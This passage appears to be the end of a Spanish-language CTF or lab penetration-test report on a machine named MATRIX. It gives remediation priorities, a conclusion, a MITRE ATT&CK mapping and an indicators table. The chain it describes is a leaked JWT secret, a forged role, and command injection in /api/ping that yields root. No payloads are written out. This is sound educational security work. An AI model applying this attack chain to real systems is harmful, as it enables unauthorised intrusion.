| **P0 — Inmediata** | Corregir la inyección de comandos en `/api/ping`; deshabilitar el endpoint hasta aplicar la corrección. | F-04 |
| **P0 — Inmediata** | Ejecutar el servicio con un usuario sin privilegios y sacar la flag/secrets del contenedor. | F-05 |
| **P1 — Corto plazo** | Implementar autenticación real, rate limiting, bloqueo progresivo y MFA para operadores. | F-02 |
| **P1 — Corto plazo** | Verificar roles del lado del servidor, usar claves de 256 bits, `iss`/`aud`/`jti` y expiración corta. | F-03 |
| **P1 — Corto plazo** | Endurecer cookies (`HttpOnly`, `Secure`, `SameSite`) y forzar HTTPS/HSTS. | F-06 |
| **P2 — Medio plazo** | Eliminar `X-Powered-By`, unificar errores genéricos y añadir cabeceras de seguridad (CSP, HSTS, `X-Content-Type-Options`). | F-07 |
| **P2 — Medio plazo** | Restringir SSH a la red de administración, usar solo claves y deshabilitar login de root. | Superficie expuesta |
| **P2 — Medio plazo** | Centralizar logs, alertas y monitorización de accesos anómalos a `/api/*`, `/construct` y `/login`. | Transversal |
| **P3 — Continuo** | Integrar SAST/DAST, revisión de dependencias y gestión de secretos en el ciclo de desarrollo. | Transversal |

## 7. Conclusión

MATRIX presenta una cadena de explotación crítica y completamente demostrable. La combinación de un endpoint de depuración sin autenticación, un secreto JWT expuesto, un control de autorización basado en un rol falsificable y una inyección de comandos en una herramienta interna permitió obtener ejecución remota como `root` y capturar la flag del laboratorio.

El factor determinante no fue una única vulnerabilidad aislada, sino la **acumulación de debilidades**: información sensible publicada, confianza en datos controlados por el cliente y ejecución con privilegios máximos. La corrección debe abordar la causa raíz —gestión de secretos, autorización del lado del servidor, validación de entrada y mínimo privilegio— y no solo los síntomas.

La flag final obtenida es:

```text
MATRIX{REDACTADO}
```

## Anexo A — Evidencia de reconocimiento



*Figura A-1. Puertos 22/tcp (OpenSSH 8.4p1) y 3000/tcp (Node.js/Express) expuestos.*



*Figura A-2. Fuzzing de directorios: `dashboard` y `construct` identificados.*



*Figura A-3. El control de acceso devuelve `403 Insufficient clearance` para el rol `guest`.*

## Anexo B — Mapeo MITRE ATT&CK y NIST

| Técnica | ID | Uso observado |
|---|---|---|
| Exploit Public-Facing Application | T1190 | Explotación de la aplicación web expuesta en el puerto 3000. |
| Unsecured Credentials | T1552 | Obtención del secreto JWT desde un endpoint de depuración. |
| Valid Accounts | T1078 | Uso de un token con rol `operator` para acceder al panel interno. |
| Forge Web Credentials: Web Cookies | T1606.001 | Falsificación de la cookie JWT. |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | Inyección de comandos en `/api/ping`. |
| System Information Discovery | T1082 | Ejecución de `id` y `hostname` para caracterizar el host. |
| Data from Local System | T1005 | Lectura de `/root/flag.txt`. |

**NIST SP-DEV-002 (Software Security Assessor):** los hallazgos evidencian fallos en diseño seguro, gestión de secretos, validación de entrada, control de acceso y configuración de privilegios mínimos. Se recomienda incorporar revisiones de seguridad en cada fase del SDLC y pruebas de abuso de API antes de cada despliegue.

## Anexo C — Indicadores y datos de la explotación

| Indicador | Valor |
|---|---|
| Host comprometido | `matrix` |
| IP objetivo | `172.17.0.2` |
| Puerto vulnerable | `3000/tcp` |
| Endpoint de fuga | `/api/debug` |
| Panel interno | `/construct` |
| Endpoint vulnerable a RCE | `POST /api/ping` |
| Secreto JWT expuesto | `[REDACTADO]` |
| Rol forjado | `operator` |
| Usuario efectivo | `root (uid=0)` |
| Flag | `MATRIX{REDACTADO}` |

**Fin del informe**  
*Documento público — publicado con fines educativos.*

